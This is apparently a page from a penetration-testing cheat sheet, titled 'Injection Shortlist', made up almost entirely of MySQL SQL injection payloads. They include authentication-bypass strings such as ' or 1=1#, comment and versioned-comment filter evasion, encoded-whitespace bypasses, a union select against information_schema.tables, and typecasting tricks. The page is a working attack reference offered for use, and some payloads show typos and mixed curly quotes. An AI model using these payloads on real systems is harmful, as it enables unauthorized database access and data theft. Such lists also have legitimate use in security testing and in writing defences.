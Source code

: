 # Injection Shortlist

### Common Injection Queries

{% tabs %}
{% tab title="MySQL" %}
 ‘ or 1=1\#  
 ‘ or 1=1– –  
 ‘ or 1=1/\* \(MySQL &lt; 5.1\)  
 ' or 1=1;%00  
 ' or 1=1 union select 1,2 as \`  
 ' or\#newline  
 1='1  
 ' or– -newline  
 1='1  
 ' /\*!50000or\*/1='1  
 ' /\*!or\*/1='1  
**Prefixes**  
 + – ~ !  
 ‘ or –+2=- -!!!’2  
**Operators**  
 ^, =, !=, %, /, \*, &, &&, \|, \|\|, , &gt;&gt;, &lt;=, &lt;=, ,, XOR, DIV, LIKE, SOUNDS LIKE, RLIKE, REGEXP, LEAST, GREATEST, CAST, CONVERT, IS, IN, NOT, MATCH, AND, OR, BINARY, BETWEEN, ISNULL  
**Whitespaces**  
 %20 %09 %0a %0b %0c %0d %a0 /\*\*/  
 ‘or+\(1\)sounds/\*\*/like“1“–%a0-  
 ‘union\(select\(1\),tabe\_name,\(3\)from\`information\_schema\`.\`tables\`\)\#  
**Strings with quotes**  
 SELECT ‘a’  
 SELECT “a”  
 SELECT n’a’  
 SELECT b’1100001′  
 SELECT \_binary’1100001′  
 SELECT x’61’  
**Strings without quotes**  
 ‘abc’ = 0x616263  
**Aliases**  
 select pass as alias from users  
 select pass aliasalias from users  
 select pass\`alias alias\`from users  
**Typecasting**  
 ‘ or true = ‘1 \# or 1=1  
 ‘ or round\(pi\(\),1\)+true+true = version\(\) \# or 3.1+1+1 = 5.1  
 ‘ or ‘1 \# or true  
**Compare operator typecasting**  
 select \* from users where ‘a’=’b’=’c’  
 select \* from users where \(‘a’=’b’\)=’c’  
 select \* from users where \(false\)=’c’  
 select \* from users where \(0\)=’c’  
 select \* from users where \(0\)=0  
 select \* from users where true  
 select \* from users

